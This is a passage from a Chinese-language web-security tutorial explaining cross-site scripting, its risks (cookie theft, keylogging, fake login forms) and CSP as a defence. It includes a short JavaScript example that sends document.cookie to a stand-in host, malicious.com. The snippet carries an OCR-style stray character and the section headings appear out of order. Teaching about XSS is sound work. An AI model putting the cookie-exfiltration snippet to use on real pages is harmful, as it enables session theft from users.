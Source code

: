 当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器.

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`3     open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码**。通过这些手段就可以大大减少 XSS 攻击。

### 2.2 跨域解决策略

## 3. 跨站脚本攻击(XSS)

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是XSS 攻击。

> XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”。但是发展到现在，往HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。

如果页面被注入了恶意 JavaScript 脚本：

> 1. 可以**窃取 Cookie 信息**。恶意 JavaScript 可以通过“document.cookie”获取 Cookie信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
> 2. 可以**监听用户行为**。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
> 3. 可以通过**修改 DOM**伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
> 4. 还可以**在页面内生成浮窗广告**，这些广告会严重地影响用户体验。

除了以上几种情况外，恶意脚本还能做很多其他的事情，这里就不一一介绍了。总之，如果让页面插入了恶意脚本，那么就相当于把我们页面的隐私数据和行为完全暴露给黑客了。

### 3.1 存储型XSS攻击
